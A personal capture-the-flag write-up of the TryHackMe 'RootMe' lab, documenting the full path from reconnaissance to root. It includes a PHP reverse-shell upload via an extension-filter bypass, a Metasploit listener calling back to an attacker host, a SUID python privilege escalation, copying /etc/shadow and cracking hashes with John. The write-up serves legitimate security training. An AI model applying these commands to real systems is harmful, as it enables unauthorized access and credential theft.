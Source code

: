 ## TryHackMe - RootMe
> Completed 14th June  2022.

This ended up being a very straight forward boot2root box that required skills that I had picked up on in previous labs. I used this as n opportunity to reinforce some of which I had learned.

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Nmap
- Gobuster
- Metasploit
- JohnTheRipper

---
### Methodology
#### Objectives/Flags
1. user.txt
2. root.txt

---
#### Reconnaissance
Started off by enumerting the target.
```bash
nmap -T4 -Pn -sV <TargetIP>
```
```
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As a webserver was running, I navigated to it in a web browser to see what it's about and what can I further enumerate. While browsing the site's source code I ran `Gobuster` in the background to fuzz out directories. The wordlist used was `httparchive_directories_1m_2021_04_28.txt` which can be found [here](https://wordlists.assetnote.io/).
```bash
gobuster dir --url http://<TargetIP> -w <Wordlist> > <output.txt>
```
```
//uploads             (Status: 301) [Size: 314] [--> http://<TargetIP>/uploads/]
//panel               (Status: 301) [Size: 312] [--> http://<TargetIP>/panel/]  
```
![](/TryHackMe/RootMe/images/Root_001.jpg)
![](/TryHackMe/RootMe/images/Root_002.jpg)

As these two directories were revealed, navigating to them showed me that the site is capable of file uploads and that the upload directory could be accessed. I got to work preparing a reverse shell using metasploit.

#### Weaponization 
N/A

#### Delivery
The reverse shell code I used can be found [here](https://github.com/pentestmonkey/php-reverse-shell). My initial thought was that if the site uses `.php` files as webpages, I should be successful in getting a reverse shell connection if my rshell payload was also in `.php`. While poking at the upload form, we can see that `.php` files are forbidden from being uploaded via extension filtering. Using what I had learned back in my run through [Vulnversity](https://github.com/dozmert/Security-Labs/blob/main/TryHackMe/Vunversity/readme.md)I renamed the file extension to `.phphtml` as first attempt to bypass the filter. The upload was successful.

![](/images/Root_003.jpg)
![](/images/Root_004.jpg)

#### Exploitation
With a successful upload, I was able to see my reverse shell file in the site's upload file directory. I started up `Metasploit` to get a listener going.
```bash
sudo msfdb init && msfconsole
  use exploit/multi/handler
  set lhost <AttackerIP>
  set lport <AttackerListeningPort>
  run
```
From here I could execute the payload through the site which successfully establishes a connection to my listener.
```bash
$ id
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
At this point I started walking the file directory of the box hoping to find some loot.
```bash
cd /var/www/html/
  cat user.txt
    THM{***}
```
I had found my first flag in the web-app's directory. While I was here, I decided to exfiltrate `Website.zip` to my local machine to not only see if I could find anything of interest but perhaps reverse engineer and repurpose in the future. Additional directory exploring revealed that the user `www-data` had access to `passwd` which I copy+pasted onto my localhost.
```bash
cat /etc/passwd
```
As I didn't have the correct permissions to view `/etc/shadow` I started to search for binary manipulations that could escalate my viewing privileges. The box's walkthrough recommended [GTFObins](https://gtfobins.github.io/gtfobins/python/) which was a new resource for me. After some research I found that by running a command through python we could manipulate our session to give us a higher viewing privilege.
```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
id
  uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```
![](/TryHackMe/RootMe/images/Root_005.jpg)
From here we could now view the shadow file which I also copy+psdyrf onyo my localhost.
```bash
cat /etc/shadow
```
Later in my exploration of the system I had found indications that `JohnTheRipper` was installed. I tried to dig through its files to see if there was past use recorded however yielding nothing, I decided to use it on my local machine to reduce my footprint. For the wordlist I used `rockyou.txt`.
![](/TryHackMe/RootMe/images/Root_006.jpg)
```bash
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=<wordlist> unshadow.txt > <output.txt>
```
After a short while the passwords are revealed for user `root` and `test`. I could now login as a root.
```bash
su
  su: must be run from a terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'
bash-4.4$
```
Trying to run `su` wasn't going to work as we had manipulated our session to be `sh`. By using a command, we had previously learned, we can re manipulate the session to be a `bash` terminal.
```bash
su
  su
  Password: P**********
root@rootme:/#
root@rootme:/# id
  uid=0(root) gid=0(root) groups=0(root)
```
We are now successfuly logged in as the `root` user and we could now loot the final flag.
```bash
root@rootme:/# cat /root/root.txt
cat /root/root.txt
  THM{***}
```

---
### After-action
#### What I've learned
After completing this box in less time than some other boxes I felt I was reinforcing my knowledge for the boot2root process. New things I learned specifically was just additional vectors for privilege-escalation which were tricky to get my head around but manipulating binaries is all it takes. I'll hold onto [GTFObins](https://gtfobins.github.io/) as a future resource.

#### What I would've done differently
If I was to take on this box again, I would like to have a better understanding of why the `python` binary could be manipulated in such a way and develop a method to prove the vulnerability by checking for versions etc.

